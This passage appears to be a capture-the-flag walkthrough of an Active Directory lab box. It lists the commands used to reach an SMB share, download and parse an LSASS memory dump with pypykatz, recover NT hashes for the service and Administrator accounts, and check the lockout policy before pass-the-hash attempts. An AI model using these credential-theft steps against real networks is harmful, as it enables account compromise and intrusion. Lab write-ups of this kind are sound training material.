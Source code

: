 Further investigation with BloodHound showed `audit2020` was a member of the `CN=audit` group, but no immediate high-value paths were apparent. The focus shifted to enumerating SMB shares accessible by `audit2020`.

```bash
impacket-smbclient blackfield.local/audit2020:"p@ssw0rd!"@10.129.93.138
```

This revealed a share named `memory_analysis`. Navigating into this share, a file named `lsass.zip` was discovered and downloaded.

```bash
cd memory_analysis
get lsass.zip
unzip lsass.zip
file lsass.DMP
```

The `lsass.DMP` file was identified as a Mini DuMP crash report, indicating a memory dump from the LSASS (Local Security Authority Subsystem Service) process. LSASS stores sensitive information, including user credentials in various formats.

-----

### Extracting Credentials from LSASS Dump with PyPyKatz

`pypykatz` was used to parse the `lsass.DMP` file and extract credentials.

```bash
pip3 install pypykatz
pypykatz lsa minidump lsass.DMP
```

The `pypykatz` output provided several valuable credentials. Key findings included:

  * **Username: svc\_backup**
      * Domain: BLACKFIELD
      * NT: `9658d1d1dcd9250115e2205d9f48400d`
  * **Username: Administrator**
      * Domain: BLACKFIELD
      * NT: `7f1e4ff8c6a8e6b6fcae2d9c0572cd62`

-----

### Lockout Policy Check

Before attempting any password spraying or Pass-the-Hash (PtH) attacks, it was crucial to understand the domain's lockout policy to avoid locking out legitimate accounts.

```bash
ldapsearch -x -D "BLACKFIELD\support" -w '#00^BlackKnight' -H ldap://10.129.93.138 -b "dc=blackfield,dc=local" "(objectClass=domain)" lockoutThreshold lockoutDuration lockoutObservationWindow maxPwdAge minPwdAge minPwdLength pwdHistoryLength pwdProperties
```
